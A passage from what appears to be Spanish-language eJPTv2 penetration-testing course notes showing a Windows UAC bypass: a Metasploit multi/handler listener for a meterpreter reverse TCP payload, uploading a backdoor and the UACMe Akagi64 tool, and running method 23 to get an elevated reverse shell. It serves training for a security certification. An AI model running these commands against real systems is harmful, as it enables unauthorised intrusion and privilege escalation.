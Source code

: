 El siguiente paso es ponernos en escucha con **msfconsole**:

```bash
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <local_IP>
set LPORT 1234
run
```

Quedamos a la escucha y volvemos a la sesión de meterpreter. Creamos un directorio temporal en la raíz.

```bash
meterpreter > cd C:\\
meterpreter > mkdir Temp
meterpreter > cd Temp
meterpreter > upload backdoor.exe # Cargamos la puerta trasera que creamos
```

Tenemos que cargar también la herramienta **Akagi64.exe**, que es parte del kit UACMe y creada por hFireFOX, que explora métodos de evasión UAC en Windows. La cargamos de la misma forma que la puerta trasera:

```bash
meterpreter > upload /root/Desktop/tools/UACME/Akagi64.exe
meterpreter > shell # Cambiamos a una sesión shell
```

![image.png](Curso%20EJPTv2%20194403fef4da80df82fada01929fa777/image%2086.png)

En este momento, si quisiéramos ejecutar la puerta trasera con privilegios administrativos, no seríamos capaces porque UAC nos impediría hacerlo. Tenemos que evadir el UAC con el método 23.

```bash
C:\Temp> akagi64.exe 23 C:\Temp\backdoor.exe
```

Después de ejecutarlo, volvemos al terminal donde estábamos a la escucha con Metasploit, y tenemos una sesión de meterpreter.

![image.png](Curso%20EJPTv2%20194403fef4da80df82fada01929fa777/image%2087.png)
